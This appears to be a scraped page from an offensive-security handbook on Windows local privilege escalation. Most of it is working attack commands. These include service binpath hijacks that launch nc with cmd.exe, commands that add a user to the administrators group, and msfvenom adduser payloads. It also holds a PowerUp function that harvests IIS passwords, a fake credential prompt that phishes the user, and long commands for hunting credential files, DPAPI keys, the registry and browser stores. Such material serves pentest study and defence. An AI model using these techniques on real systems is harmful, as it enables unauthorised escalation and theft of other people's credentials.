[ CTX_WSUSpect_White_Paper.pdf  CTX_WSUSpect_White_Paper.pdf - 517KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LsGjqDCwhmtzpPg_P_x%2F-LsGjy5eKwmpuYwPQw_Y%2FCTX_WSUSpect_White_Paper.pdf?alt=media&token=7ecf0d61-f9ca-4b30-a1f6-1a77bea9b8a8)

#

Services

Get a list of services:

Copy

66net start
67wmic service list brief
68sc query

##

Permissions

You can use **sc** to get information of a service

Copy

sc qc <service_name>

It is recommended to have the binary **accesschk** from *Sysinternals* to check the required privilege level for each service.

Copy

accesschk.exe -ucqv <Service_Name>  #Check rights for different groups
It is recommended to check if "Authenticated Users" can modify any service:

Copy

71accesschk.exe -uwcqv "Authenticated Users" * /accepteula
72accesschk.exe -uwcqv %USERNAME% * /accepteula
73accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
74accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version

​[You can download accesschk.exe for XP for here](https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe)​

##

Enable service

If you are having this error (for example with SSDPSRV):

*System error 1058 has occurred. The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.*

You can enable it using

Copy

75sc config SSDPSRV start= demand
76sc config SSDPSRV obj=  ".\LocalSystem" password=  ""

**Take into account that the service upnphost depends on SSDPSRV to work (for XP SP1)**

##

**Modify service binary path**

If the group "Authenticated users" has **SERVICE_ALL_ACCESS** in a service, then it can modify the binary that is being executed by the service. To modify it and execute **nc** you can do:

Copy

77sc config <Service_Name> binpath=  "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"

78sc config <Service_Name> binpath=  "net localgroup administrators username /add"

79​
80sc config SSDPSRV binpath=  "C:\Documents and Settings\PEPE\meter443.exe"

##

Restart service

Copy

81wmic service NAMEOFSERVICE call startservice
82net stop [service name] && net start [service name]

Other Permissions can be used to escalate privileges:**SERVICE_CHANGE_CONFIG** Can reconfigure the service binary**WRITE_DAC:** Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG**WRITE_OWNER:** Can become owner, reconfigure permissions**GENERIC_WRITE:** Inherits SERVICE_CHANGE_CONFIG**GENERIC_ALL:** Inherits SERVICE_CHANGE_CONFIG

**To detect and exploit** this vulnerability you can use *exploit/windows/local/service_permissions*

##

Services binaries weak permissions

Check if you can modify the binary that is executed by a service.

You can get every binary that is executed by a service using **wmic** (not in system32) and check your permissions using **icacls**:

Copy

83for /f "tokens=2 delims='='" %a in  ('wmic service list full^|find /i "pathname"^|find /i /v "system32"')  do @echo %a >> %temp%\perm.txt

84​

85for /f eol^=^"^ delims^=^" %a in  (%temp%\perm.txt)  do cmd.exe /c icacls "%a" 2>nul | findstr "(M)  (F) :\"

You can also use **sc** and **icacls**:

Copy

86sc query state= all | findstr "SERVICE_NAME:"  >> C:\Temp\Servicenames.txt

87FOR /F "tokens=2 delims= " %i in  (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt

88FOR /F %i in  (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME"  >> C:\Temp\path.txt

##

Services registry permissions

You should check if you can modify any service registry. You can **check** your **permissions** over a service **registry** doing:

Copy

89reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

90​

91#Try to write every service with its current content (to check if you have write permissions)

92for /f %a in  ('reg query hklm\system\currentcontrolset\services')  do del %temp%eg.hiv 2>nul & reg save %a %temp%eg.hiv 2>nul && reg restore %a %temp%eg.hiv 2>nul &&  echo You can modify %a

93​

94get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

Check if **Authenticated Users** or **NT AUTHORITY\INTERACTIVE** have FullControl. In that case you can change the binary that is going to be executed by the service.

To change the Path of the binary executed:

Copy

reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f

##

Unquoted Service Paths

If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.

For example, for the path *C:\Program Files\Some Folder\Service.exe* Windows will try to execute:

Copy

96C:\Program.exe
97C:\Program Files\Some.exe
98C:\Program Files\Some Folder\Service.exe
To list all unquoted service paths (minus built-in Windows services)

Copy

99wmic service get name,displayname,pathname,startmode |findstr /i "Auto"  | findstr /i /v "C:\Windows\\"  |findstr /i /v """

100wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """  #Not only auto services

101​
102#Other way

103for /f "tokens=2" %%n in  ('sc query state^= all^| findstr SERVICE_NAME')  do  (

104for /f "delims=: tokens=1*" %%r in  ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""')  do  (

105echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]"  >nul 2>&1 &&  (echo %%n &&  echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%")  && echo.

106)
107)

Copy

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'}  |  select PathName,DisplayName,Name

**You can detect and exploit** this vulnerability with metasploit: *exploit/windows/local/trusted_service_path*

You can manually create a service binary with metasploit:

Copy

msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe

#

DLL Hijacking

Programs usually can't function by themselves, they have a lot of resources they need to hook into (mostly DLL's but also proprietary files). If a **program or service loads a file from a directory we have write access to**, we can abuse that to **pop a shell with the privileges the program runs with**.

**In order to learn more about how to **[**discover and exploit Dll Hijacking vulnerabilities read this**](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)**.**

#

Credentials

##

​[MSF-Credentials Plugin](https://github.com/carlospolop/MSF-Credentials)​

I have created this plugin to **automatically execute every metasploit POST module that searches for credentials** inside the victim.

##

Credentials manager / Windows vault

From https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vaultThe Windows Vault stores user credentials for servers, websites and other programs that **Windows** can **log in the users automaticall**y. At first instance, this might look like now users can store their Facebook credentials, Twitter credentials, Gmail credentials etc., so that they automatically log in via browsers. But it is not so.

Windows Vault stores credentials that Windows can log in the users automatically, which means that any **Windows application that needs credentials to access a resource** (server or a website) **can make use of this Credential Manager** & Windows Vault and use the credentials supplied instead of users entering the username and password all the time.

Unless the applications interact with Credential Manager, I don't think it is possible for them to use the credentials for a given resource. So, if your application wants to make use of the vault, it should somehow **communicate with the credential manager and request the credentials for that resource** from the default storage vault.

Copy

110cmdkey /list #List credential

111runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"  #Use saved credentials

Note that mimikatz, lazagne, [credentialfileview](https://www.nirsoft.net/utils/credentials_file_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault_password_view.html), or from [Empire Powershells module](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1).

##

DPAPI

In theory, the Data Protection API can enable symmetric encryption of any kind of data; in practice, its primary use in the Windows operating system is to perform symmetric encryption of asymmetric private keys, using a user or system secret as a significant contribution of entropy.

**DPAPI allows developers to encrypt keys using a symmetric key derived from the user's logon secrets**, or in the case of system encryption, using the system's domain authentication secrets.

The DPAPI keys used for encrypting the user's RSA keys are stored under `%APPDATA%\Microsoft\Protect\{SID} ` directory, where {SID} is the [Security Identifier](https://en.wikipedia.org/wiki/Security_Identifier) of that user. **The DPAPI key is stored in the same file as the master key that protects the users private keys**. It usually is 64 bytes of random data. (Notice that this directory is protected so you cannot list it using`dir ` from the cmd, but you can list it from PS).

Copy

112Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
113Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect\

You can use **mimikatz module**  `dpapi::masterkey ` with the appropiate arguments (`/pvk ` or `/rpc `) to decrypt it.

The **credentials files protected by the master password** are usually located in:

Copy

114dir C:\Users\username\AppData\Local\Microsoft\Credentials\
115dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
116Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\

117Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\

You can use **mimikatz module**  `dpapi::cred ` with the appropiate` /masterkey ` to decrypt. You can** extract many DPAPI**  **masterkeys **from **memory **with the `sekurlsa::dpapi ` module (if you are root).

##

Wifi

Copy

118#List saved Wifi using
119netsh wlan show profile
120#To get the clear-text password use
121netsh wlan show profile <SSID> key=clear

##

AppCmd.exe

**AppCmd.exe** is located in the `%systemroot%\system32\inetsrv\ ` directory. If this file exists then it is possible that some **credentials **have been configured and can be **recovered**.

This code was extracted from ***PowerUP***:

Copy

122function Get-ApplicationHost {
123  $OrigError  =  $ErrorActionPreference
124  $ErrorActionPreference  =  "SilentlyContinue"
125​
126  # Check if appcmd.exe exists
127  if  (Test-Path ("$Env:SystemRoot\System32\inetsrv\appcmd.exe"))  {
128  # Create data table to house results
129  $DataTable  = New-Object System.Data.DataTable
130​
131  # Create and name columns in the data table
132  $Null  =  $DataTable.Columns.Add("user")
133  $Null  =  $DataTable.Columns.Add("pass")
134  $Null  =  $DataTable.Columns.Add("type")
135  $Null  =  $DataTable.Columns.Add("vdir")
136  $Null  =  $DataTable.Columns.Add("apppool")
137​
138  # Get list of application pools

139 Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name"  | ForEach-Object {

140​
141  # Get application pool name
142  $PoolName  =  $_
143​
144  # Get username

145  $PoolUserCmd  =  "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"

146  $PoolUser = Invoke-Expression $PoolUserCmd
147​
148 # Get password

149  $PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"

150  $PoolPassword  = Invoke-Expression $PoolPasswordCmd
151​
152  # Check if credentials exists
153  if  (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array]))  {
154 # Add credentials to database

155  $Null  =  $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)

156  }
157  }
158​
159 # Get list of virtual directories

160 Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {

161​
162 # Get Virtual Directory Name
163  $VdirName  =  $_
164​
165 # Get username

166  $VdirUserCmd  = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:userName"

167  $VdirUser  = Invoke-Expression $VdirUserCmd
168​
169  # Get password

170  $VdirPasswordCmd  =  "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:password"

171  $VdirPassword = Invoke-Expression $VdirPasswordCmd
172​
173 # Check if credentials exists
174 if (($VdirPassword -ne "") -and ($VdirPassword -isnot [system.array]))  {
175  # Add credentials to database

176  $Null  =  $DataTable.Rows.Add($VdirUser, $VdirPassword,'Virtual Directory',$VdirName,'NA')

177  }
178  }
179​
180  # Check if any passwords were found
181 if(  $DataTable.rows.Count -gt 0 )  {
182  # Display results in list view that can feed into the pipeline

183  $DataTable  | Sort-Object type,user,pass,vdir,apppool | Select-Object user,pass,type,vdir,apppool -Unique

184  }
185  else  {
186  # Status user

187 Write-Verbose 'No application pool or virtual directory passwords were found.'

188  $False
189  }
190  }
191  else  {
192 Write-Verbose 'Appcmd.exe does not exist in the default location.'
193  $False
194  }
195  $ErrorActionPreference  =  $OrigError
196}

##

SSH keys in registry

SSH private keys can be stored inside the registry key `HKCU\Software\OpenSSH\Agent\Keys ` so you should check if there is anything interesting in there:

Copy

reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys

If you find any entry inside that path it will probably be a saved SSH key. It is stored encrypted but can be easily decrypted using https://github.com/ropnop/windows_sshagent_extract.

More information about this technique here: https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/​

##

SCClient / SCCM

Check if `C:\Windows\CCM\SCClient.exe ` exists . Installers are **run with SYSTEM privileges**, many are vulnerable to **DLL Sideloading (Info from **[**https://github.com/enjoiz/Privesc**](https://github.com/enjoiz/Privesc)**).**

Copy

198$result = Get-WmiObject -Namespace "root\ccm\clientSDK" -Class CCM_Application -Property * | select Name,SoftwareVersion

199if ($result) { $result }
200else { Write "Not Installed." }

##

**Remote Desktop Credential Manager**

Copy

%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings

Use the **Mimikatz **`dpapi::rd `g module with appropriate `/masterkey ` to **decrypt any .rdg files**You can **extract many DPAPI masterkeys** from memory with the Mimikatz `sekurlsa::dpapi ` module

##

Ask for credentials

You can always** ask the user to enter his credentials of even the credentials of a different user** if you think he can know them (notice that **asking **the client directly for the **credentials **is really **risky**):

Copy

202$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password

203$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password

##

Common files with credentials

###

Unattended files

Copy

204C:\Windows\sysprep\sysprep.xml
205C:\Windows\sysprep\sysprep.inf
206C:\Windows\sysprep.inf
207C:\Windows\Panther\Unattended.xml
208C:\Windows\Panther\Unattend.xml
209C:\Windows\Panther\Unattend\Unattend.xml
210C:\Windows\Panther\Unattend\Unattended.xml
211C:\Windows\System32\Sysprep\unattend.xml
212C:\Windows\System32\Sysprep\unattended.xml
213C:\unattend.txt
214C:\unattend.inf

###

SAM & SYSTEM backups

Copy

215C:\Windowsepair\SAM
216C:\Windows\System32\config\RegBack\SAM
217C:\Windows\System32\config\SAM
218C:\Windowsepair\SYSTEM
219C:\Windows\System32\config\SYSTEM
220C:\Windows\System32\config\RegBack\SYSTEM

###

McAffe SiteList.xml

Search for a file called **SiteList.xml**

###

Cached GPP Pasword

Before KB2928120 (see MS14-025), some Group Policy Preferences could be configured with a custom account. This feature was mainly used to deploy a custom local administrator account on a group of machines. There were two problems with this approach though. First, since the Group Policy Objects are stored as XML files in SYSVOL, any domain user can read them. The second problem is that the password set in these GPPs is AES256-encrypted with a default key, which is publicly documented. This means that any authenticated user could potentially access very sensitive data and elevate their privileges on their machine or even the domain. This function will check whether any locally cached GPP file contains a non-empty "cpassword" field. If so, it will decrypt it and return a custom PS object containing some information about the GPP along with the location of the file.

Search in**  *****C:\ProgramData\Microsoft\Group Policy\history****  * or in ***C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history**** (previous to W Vista) *for these files:

- Groups.xml
- Services.xml
- Scheduledtasks.xml
- DataSources.xml
- Printers.xml
- Drives.xml

**To decrypt the cPassword:**

Copy

221#To decrypt these passwords you can decrypt it using
222gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw

###

Cloud Credentials

Copy

223##From user home
224.aws\credentials
225AppData\Roaming\gcloud\credentials.db
226AppData\Roaming\gcloud\legacy_credentials
227AppData\Roaming\gcloud\access_tokens.db
228.azure\accessTokens.json
229.azure\azureProfile.json

##

More possible files with credentials

Known files that some time ago contained **passwords **in **clear-text** or **Base64**

Copy

230$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history
231vnc.ini, ultravnc.ini, *vnc*
232web.config
233php.ini httpd.conf httpd-xampp.conf my.ini my.cnf (XAMPP, Apache, PHP)
234SiteList.xml #McAfee
235ConsoleHost_history.txt #PS-History
236*.gpg
237*.pgp
238*config*.php
239elasticsearch.y*ml
240kibana.y*ml
241*.p12
242*.der
243*.csr
244*.cer
245known_hosts
246id_rsa
247id_dsa
248*.ovpn
249anaconda-ks.cfg
250hostapd.conf
251rsyncd.conf
252cesi.conf
253supervisord.conf
254tomcat-users.xml
255*.kdbx
256KeePass.config
257Ntds.dit
258SAM
259SYSTEM
260FreeSSHDservice.ini
261access.log
262error.log
263server.xml
264ConsoleHost_history.txt
265setupinfo
266setupinfo.bak
267key3.db #Firefox
268key4.db #Firefox
269places.sqlite #Firefox
270"Login Data" #Chrome
271Cookies #Chrome
272Bookmarks #Chrome
273History #Chrome
274TypedURLsTime #IE
275TypedURLs #IE
276appcmd.exe
Example of web.config with credentials:

Copy

277<authentication  mode="Forms">
278  <forms  name="login"  loginUrl="/admin">
279 <credentials passwordFormat = "Clear">
280  <user  name="Administrator"  password="SuperAdminPassword"  />
281  </credentials>
282  </forms>
283</authentication>
Search all of the proposed files:

Copy

284cd C:\

285dir /s/b /A:-D RDCMan.settings == *.rdg == SCClient.exe == *_history == .sudo_as_admin_successful == .profile == *bashrc == httpd.conf == *.plan == .htpasswd == .git-credentials == *.rhosts == hosts.equiv == Dockerfile == docker-compose.yml == appcmd.exe == TypedURLs == TypedURLsTime == History == Bookmarks == Cookies == "Login Data" == places.sqlite == key3.db == key4.db == credentials == credentials.db == access_tokens.db == accessTokens.json == legacy_credentials == azureProfile.json == unattend.txt == access.log == error.log == *.gpg == *.pgp == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12 == *.der == *.csr == *.cer == known_hosts == id_rsa == id_dsa == *.ovpn == anaconda-ks.cfg == hostapd.conf == rsyncd.conf == cesi.conf == supervisord.conf == tomcat-users.xml == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == unattend.xml == unattended.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == groups.xml == services.xml == scheduledtasks.xml == printers.xml == drives.xml == datasources.xml == php.ini == https.conf == https-xampp.conf == httpd.conf == my.ini == my.cnf == access.log == error.log == server.xml == SiteList.xml == ConsoleHost_history.txt == setupinfo == setupinfo.bak 2>nul | findstr /v ".dll"

Copy

Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}

If the server is a IIS server, check the contents of the folder

Copy

287Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue

288Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue

Check Logs (IIS, Apache)

Copy

289# IIS
290C:\inetpub\logs\LogFiles\*
291​
292#Apache

293Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue

It is also a good idea to search for **files** that contain specific words (like *password*)

Copy

294#Search suspicious files from filename
295dir /s /W *pass* == *cred* == *vnc* == *.config* | findstr /i/v "\\windows"
296​
297#Search suspicious files from content

298findstr /D:C:\ /si password *.xml *.ini *.txt #A lot of output can be generated

299findstr /D:C:\ /M /SI password *.xml *.ini *.txt 2>nul | findstr /V /I "\\AppData\\Local \\WinXsX ApnDatabase.xml \\UEV\\InboxTemplates \\Microsoft.Windows.CloudExperienceHost" 2>nul #filtered output

***post/windows/gather/credentials/* post/windows/gather/enum_unattend***

###

Home credentials files

You should also look inside the home folder for files called **password** or* *credential** ot something similar.

###

Credentials in the RecycleBin

You should also check the Bin to look for credentials inside it

To **recover passwords** saved by several programs you can use: http://www.nirsoft.net/password_recovery_tools.html​

##

Inside the registry

###

Winlogon credentials

Copy

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

###

Other possible registry keys with credentials

Copy

301reg query "HKCU\Software\ORL\WinVNC3\Password"

302reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  #Autologin

303reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
304reg query "HKCU\Software\TightVNC\Server"

305reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s #Check the values saved in each session, user/password could be there

306reg query "HKCU\Software\OpenSSH\Agent\Key"
307​
308# Search for passwords inside all the registry

309reg query HKLM /f password /t REG_SZ /s #Look for registries that contains "password"

310reg query HKCU /f password /t REG_SZ /s #Look for registries that contains "password"

​[Extract openssh keys from registry.](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)​

The tool [SessionGopher](https://github.com/Arvanaghi/SessionGopher) search for **sessions**, **usernames **and **passwords** of several tools that save this data in clear text (PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP)

Copy

Invoke-SessionGopher -Thorough

##

Browsers History

You should check for dbs where passwords from** Chrome or Firefox **are stored. Also check for the history, bookmarks and favourites of the browsers so maybe some **passwords are** stored there.

Tools to extract passwords from browsers:

- Mimikatz: `dpapi::chrome `
- ​[**SharpWeb**](https://github.com/djhohnstein/SharpWeb)**​**

#

AlwaysInstallElevated

**If** these 2 registers are **enabled **(value is** 0x1**), then users of any privilege can **install **(execute)**  **`***.msi** ` files as NT AUTHORITY\**SYSTEM**.

Copy

312reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

313reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

##

Metasploit payloads

Copy

314msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format

315msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted

##

MSI Wrapper

Read this tutorial to learn how to create a MSI wrapper using this tools:

[ MSI Wrapper  /windows/windows-local-privilege-escalation/msi-wrapper](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/msi-wrapper)

##

MSI Installation

To execute the **installation **of the **malicious **`**.msi** `**  **file in **background:**

Copy

msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\alwe.msi

To exploit this vulnerability you can use: *exploit/windows/local/always_install_elevated*

#

WSUS

You can compromise the system if the updates are not requested using http**S** but http.

You start by checking if the network uses a non-SSL WSUS update by running the following:

Copy

reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
If you get a reply such as:

Copy

318HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
319 WUServer REG_SZ http://xxxx-updxx.corp.internal.com:8535

And if `HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer ` is equals to 1.

Then,** it is exploitable. **If the last registry is equals to 0, then, the WSUS entry will be ignored.

You can use: [Wsuxploit](https://github.com/pimps/wsuxploit) - This is a MiTM weaponized exploit script to inject 'fake' updates into non-SSL WSUS traffic.

[ CTX_WSUSpect_White_Paper.pdf  CTX_WSUSpect_White_Paper.pdf - 517KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LsGjqDCwhmtzpPg_P_x%2F-LsGjy5eKwmpuYwPQw_Y%2FCTX_WSUSpect_White_Paper.pdf?alt=media&token=7ecf0d61-f9ca-4b30-a1f6-1a77bea9b8a8)

#

Write Permissions

Check if you can modify some config file to read some special file or if you can modify some binary that is going to be executed by an Administrator account (schedtasks).

A way to find weak folder/files permissions in the system is doing:

Copy

320accesschk.exe /accepteula
321# Find all weak folder permissions per drive.
322accesschk.exe -uwdqs Users c:\
323accesschk.exe -uwdqs "Authenticated Users" c:\
324accesschk.exe -uwdqs "Everyone" c:\
325# Find all weak file permissions per drive.
326accesschk.exe -uwqs Users c:\*.*
327accesschk.exe -uwqs "Authenticated Users" c:\*.*
328accesschk.exe -uwdqs "Everyone" c:\*.*

Copy

329icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"

330icacls ":\Program Files (x86)\*" 2>nul | findstr "(F)  (M) C:\" | findstr ":\ everyone authenticated users todos %username%"

Copy

331Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*'  | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'}  } catch {}}

332​

333Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*'  | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'}  } catch {}}

#

Leaked Handlers

Imagine that **a process running as SYSTEM open a new process** (`OpenProcess() `) with **full access**. The same process **also create a new process** (`CreateProcess() `) **with low privileges but inheriting all the open handles of the main process**. Then, if you have **full access to the low privileged process**, you can grab the **open handle to the privileged process created** with `OpenProcess() ` and **inject a shellcode**. [Read this example for more information about **how to detect and exploit this vulnerability**.](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/leaked-handle-exploitation)[Read this **other post for a more complete explanation on how to test and abuse more open handlers of processes and threads inherited with different levels of permissions (not only full access)**](http://dronesec.pw/blog/2019/08/22/exploiting-leaked-process-and-thread-handles/).

#

Named Pipe Client Impersonation

A `pipe ` is a block of shared memory that processes can use for communication and data exchange.

`Named Pipes ` is a Windows mechanism that enables two unrelated processes to exchange data between themselves, even if the processes are located on two different networks. It's very similar to client/server architecture as notions such as `a named pipe server ` and a named `pipe client ` exist.

When a **client writes on a pipe**, the **server **that created the pipe can **impersonate **the **client **if it has **SeImpersonate **privileges. Then, if you can find a **privileged process if going to write on any pipe that you can impersonate**, you could be able to **escalate privileges** impersonating that process after it writes inside your created pipe. [**You can read this to learn how to perform this attack**](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/named-pipe-client-impersonation)**.**

#

From Administrator Medium to High Integrity Level / UAC Bypass

**​**[**Learn here**](https://book.hacktricks.xyz/windows/credentials#uac)** about what are the "integrity levels" in Windows, what is UAC and how to**[** bypass it**](https://book.hacktricks.xyz/windows/credentials#uac)**.**

#

**From High Integrity to System**

##

**New service**

If you are already running on a High Integrity process, the **pass to SYSTEM** can be easy just **creating and executing a new service**:

Copy

334sc create newservicename binPath= "C:\windows\system32\notepad.exe"
335sc start newservicename

##

AlwaysInstallElevated

From a High Integrity process you could try to e**nable the AlwaysInstallElevated registry entries** and **install **a reverse shell using a ***.msi*** wrapper. [More information about the registry keys involved and how to install a *.msi* package here.](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)​

##

From SeDebug + SeImpersonate to Full Token privileges

If you have those token privileges (probably you will find this in an already High Integrity process), you will be able to **open almost any process** (not protected processes) with the SeDebug privilege, **copy the token** of the process, and create an **arbitrary process with that token**. Using this technique is usually **selected any process running as SYSTEM with all the token privileges** (*yes, you can find SYSTEM processes without all the token privileges*).**You can find an **[**example of code executing the proposed technique here**](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/sedebug-+-seimpersonate-copy-token)**.**

##

**Named Pipes**

This technique is used by meterpreter to escalate in `getsystem `. The technique consists on **creating a pipe and then create/abuse a service to write on that pipe**. Then, the **server **that created the pipe using the `**SeImpersonate** `**  **privilege will be able to **impersonate the token** of the pipe client (the service) obtaining SYSTEM privileges. If you want to [**learn more about name pipes you should read this**](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#named-pipe-client-impersonation). If you want to read an example of [**how to go from high integrity to System using name pipes you should read this**](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/from-high-integrity-to-system-with-name-pipes).

##

Dll Hijacking

If you manages to** hijack a dll** being **loaded **by a **process **running as **SYSTEM **you will be able to execute arbitrary code with those permissions. Therefore Dll Hijacking is also useful to this kind of privilege escalation, and, moreover, if far **more easy to achieve from a high integrity process** as it will have **write permissions **on the folders used to load dlls.**You can **[**learn more about Dll hijacking here**](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)**.**

#

More help

​[Static impacket binaries](https://github.com/ropnop/impacket_static_binaries)​

#

Useful tools

###

**Best tool to look for Windows local privilege escalation vectors: **[**WinPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)**​**

###

PS

**​**[**PowerSploit-Privesc(PowerUP)**](https://github.com/PowerShellMafia/PowerSploit) -- Check for misconfigurations and sensitive files ([check here]()). Detected.[**JAWS**](https://github.com/411Hall/JAWS)**  **-- Check for some possible misconfigurations and gather info ([check here]()).[**privesc **](https://github.com/enjoiz/Privesc)-- Check for misconfigurations[**SessionGopher**](https://github.com/Arvanaghi/SessionGopher)**  **-- It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information. Use **-Thorough** in local.[**Invoke-WCMDump**](https://github.com/peewpw/Invoke-WCMDump)**  **-- Extracts crendentials from Credential Manager. Detected.[**DomainPasswordSpray**](https://github.com/dafthack/DomainPasswordSpray)**  **-- Spray gathered passwords across domain[**Inveigh**](https://github.com/Kevin-Robertson/Inveigh)**  **-- Inveigh is a PowerShell ADIDNS/LLMNR/mDNS/NBNS spoofer and man-in-the-middle tool.[<s>**Sherlock**</s>](https://github.com/rasta-mouse/Sherlock)<s>**  **</s>-- Search for known privesc vulnerabilities (DEPRECATED for Watson)[<s>**WINspect**</s>](https://github.com/A-mIn3/WINspect)<s>**  **</s>-- Local checks** (Need Admin rights)**

###

Exe

